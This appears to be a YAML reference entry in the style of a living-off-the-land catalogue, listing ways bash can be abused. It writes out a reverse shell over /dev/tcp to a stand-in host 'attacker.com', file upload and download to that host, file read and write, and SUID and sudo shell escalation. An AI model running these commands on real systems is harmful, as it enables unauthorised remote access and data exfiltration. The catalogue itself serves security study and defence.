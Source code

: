 ```yaml
---
functions:
  execute-interactive:
  - code: bash
  reverse-shell-interactive:
  - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      bash -c 'bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'
  upload:
  - description: Send local file in the body of an HTTP POST request. Run an HTTP
      service on the attacker box to collect the file.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      export LFILE=file_to_send
      bash -c 'echo -e "POST / HTTP/0.9\n\n$(<$LFILE)" > /dev/tcp/$RHOST/$RPORT'
  - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"`
      on the attacker box to collect the file.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      export LFILE=file_to_send
      bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  download:
  - description: Fetch a remote file via HTTP GET request.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      export LFILE=file_to_get
      bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
          3<>/dev/tcp/$RHOST/$RPORT \
          | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
  - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"`
      on the attacker box to send the file.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      export LFILE=file_to_get
      bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  file-write:
  - code: |
      export LFILE=file_to_write
      bash -c 'echo data > $LFILE'
  file-read:
  - description: It trims trailing newlines and it's not binary-safe.
    code: |
      export LFILE=file_to_read
      bash -c 'echo "$(<$LFILE)"'
  suid-enabled:
  - code: "./bash -p"
  sudo-enabled:
  - code: sudo bash
---
```

